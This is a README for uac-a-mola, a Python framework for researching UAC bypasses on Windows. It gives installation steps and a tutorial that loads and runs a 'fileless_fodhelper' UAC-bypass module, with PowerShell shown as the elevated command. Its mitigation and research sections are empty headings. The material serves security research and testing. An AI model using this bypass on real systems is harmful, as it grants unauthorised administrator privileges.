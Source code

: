 # uac-a-mola
# Installation
To install uac-a-mola you have to perform the following actions:
1. **Download and install python 2.7.x for Windows** taking into account your particular infrastructure, you can find the binaries here: https://www.python.org/downloads/
2. **Add the python path to the _path_ enviroment variable**. You can do this by carrying out the following steps:
    1. Right click to _mycomputer_ and left click to properties
    2. Left click to Advance system configuration
    3. Lef click to Enviroment Variables
    4. In the _system variables_ box, double left click to _Path_ 
    5. Left clicking into _New_ add the following paths:
        * C:\Python27\
        * C:\Python27\scripts\
3. **Download uac-a-mola tool from github** by downloading the .zip file or by clonning the repo.
4. **Open the folder _uac-a-mola-master_ with a cmd and execute the following command**:
```
pip install -r requirements.txt
```
Uac-a-mola is now ready to rock! You can test its functionality by typing:
```
cd uacamola
python uacamola.py
```
# Tutorial
This is a brief section that explains the use of some of the uac-a-mola modules:

## Attack modules
Using the attack modules is something very simple that hardly requires explanation. The only thing you have to do is load the corresponding module in the framework using the **_load_** command, you can see the options or input parameters using the **_show_** command, with the **_run_** command the module is executed:
```
uac-a-mola> load modules\attack\fileless_fodhelper.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[fileless_fodhelper.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_Fileless Fodhelper

 Description
 -----------
 |_Fileless - Fodhelper bypass UAC

 Options (Field = Value)
 -----------------------
 |_instruction = C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -C echo mola > c:\pwned.txt (Elevated Code)

uac-a-mola[fileless_fodhelper.py]> set instruction powershell.exe
uac-a-mola[fileless_fodhelper.py]> run
[+] Running module...
```
## Mitigate modules

## Research modules
# Write your own modules


# Support
Please report any error to shramos@protonmail.com or just open an issue in GitHub. Your collaboration is appreciated!
